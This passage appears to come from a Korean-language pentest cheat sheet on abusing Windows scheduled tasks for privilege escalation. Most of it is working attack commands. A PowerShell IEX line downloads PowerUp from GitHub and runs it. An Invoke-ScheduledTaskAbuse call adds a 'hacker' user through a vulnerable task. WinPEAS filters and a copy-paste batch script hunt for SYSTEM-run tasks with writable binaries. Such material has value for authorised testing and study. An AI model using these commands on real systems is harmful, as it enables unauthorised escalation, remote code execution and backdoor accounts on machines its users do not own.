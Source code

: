 ## 🤖 자동화 도구 활용

### 🔍 PowerUp 스케줄된 작업 분석

```powershell
# PowerUp 다운로드 및 실행
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1')

# 스케줄된 작업 관련 모든 검사
Invoke-AllChecks | Where-Object {$_ -like "*Scheduled*" -or $_ -like "*Task*"}

# 개별 스케줄된 작업 검사
Get-ScheduledTaskComHandler
Get-ModifiableScheduledTaskFile

# 취약한 스케줄된 작업 실행
Invoke-ScheduledTaskAbuse -TaskName "VulnerableTask" -Command "net user hacker password123 /add"
```

### 🎯 WinPEAS 스케줄된 작업 정보

```cmd
:: WinPEAS 스케줄된 작업 관련 정보만 추출
winPEAS.exe | findstr /i "scheduled\|task\|schtasks"

:: 특정 검사만 실행
winPEAS.exe scheduledtasks
```

### 🔧 스케줄된 작업 종합 스캔 스크립트

```cmd
:: 스케줄된 작업 취약점 스캔 스크립트 (복붙용)
@echo off
echo ===== WINDOWS SCHEDULED TASKS EXPLOITATION SCAN =====
echo.

echo [+] Listing all scheduled tasks...
schtasks /query /fo LIST | findstr "TaskName\|Status" | findstr /B "TaskName\|Ready"
echo.

echo [+] Tasks running as SYSTEM or Administrator...
schtasks /query /fo LIST /v | findstr /C:"Run As User" /A:5 | findstr "SYSTEM\|Administrator"
echo.

echo [+] Checking task file permissions...
if exist accesschk.exe (
    for /f "tokens=*" %%i in ('schtasks /query /fo csv ^| findstr /V "TaskName"') do @(
        for /f "tokens=1,2 delims=," %%a in ("%%i") do @(
            echo Checking task: %%a
            schtasks /query /tn %%a /fo LIST /v | findstr "Task To Run" | for /f "tokens=3*" %%c in ('findstr "Task To Run"') do @accesschk.exe -f %%c 2>nul | findstr "RW\|F"
        )
    )
) else (
    echo AccessChk not found. Download from: https://download.sysinternals.com/files/AccessChk.zip
)
echo.

echo [+] Next run times...
schtasks /query /fo LIST /v | findstr "TaskName\|Next Run Time" | findstr /B "TaskName\|Next Run Time"
echo.
```